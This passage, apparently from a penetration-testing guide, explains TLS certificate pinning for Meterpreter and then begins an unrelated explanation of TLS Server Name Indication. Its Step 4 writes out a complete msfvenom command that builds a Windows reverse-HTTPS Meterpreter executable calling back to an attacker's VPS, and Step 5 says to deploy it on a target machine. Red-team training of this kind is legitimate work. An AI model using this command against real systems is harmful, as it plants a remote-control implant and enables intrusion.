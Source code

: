 Make sure to replace `/path/to/meterpreter.pem` with the actual path to your PEM file and `your_vps_ip` with your Metasploit server IP address.

#### Step 4: Generate the Meterpreter Payload

Generate the payload to use the pinned certificate:

```plaintext
msfvenom -p windows/meterpreter/reverse_https LHOST=your_vps_ip LPORT=443 HandlerSSLCert=/path/to/meterpreter.pem StagerVerifySSLCert=true -f exe -o /path/to/meterpreter_payload.exe
```

Make sure to replace `your_vps_ip`, `443`, `/path/to/meterpreter.pem`, and `/path/to/meterpreter_payload.exe` with your actual values.

#### Step 5: Deploy the Payload

Deploy the generated payload (`meterpreter_payload.exe`) on the target machine.

#### Step 6: Verify the Connection

When the payload is executed on the target machine, it should connect back to the Metasploit listener using the specified SSL certificate. The connection will only be established if the certificate matches, ensuring that the communication is secure.

### Tips and Considerations

- **Certificate Validity**: Ensure that your certificate is valid and not expired. Self-signed certificates might need to be re-generated periodically.
- **PEM File Permissions**: Secure your PEM file with appropriate file permissions to prevent unauthorized access.
- **Verify Connections**: Regularly verify that your connections are using the correct certificate and are secure.

By following these steps, you can implement TLS certificate pinning in Meterpreter, enhancing the security of your communication and reducing the risk of MITM attacks during your engagements.


TLS Server Name Indication (SNI) is an extension to the TLS protocol that allows the client to specify the hostname it is attempting to connect to at the start of the handshake process. This is particularly useful when multiple virtual servers are hosted on a single IP address, enabling the server to present the correct SSL/TLS certificate based on the requested hostname.

### How SNI Works

When a client connects to a server over TLS, it includes the desired hostname in the initial handshake request. This allows the server to select the appropriate certificate to present to the client. Here’s a simplified overview of the process:

1. **Client Hello**: The client sends a "Client Hello" message to the server, including the SNI extension with the hostname.
2. **Server Hello**: The server reads the SNI extension, selects the corresponding certificate, and sends a "Server Hello" message back to the client, including the chosen certificate.
3. **Certificate Exchange and Key Agreement**: The server sends its certificate to the client. The client verifies the certificate, and they proceed with the key agreement and encryption setup.
4. **Secure Communication**: Once the handshake is complete, the client and server communicate securely using the agreed-upon encryption.
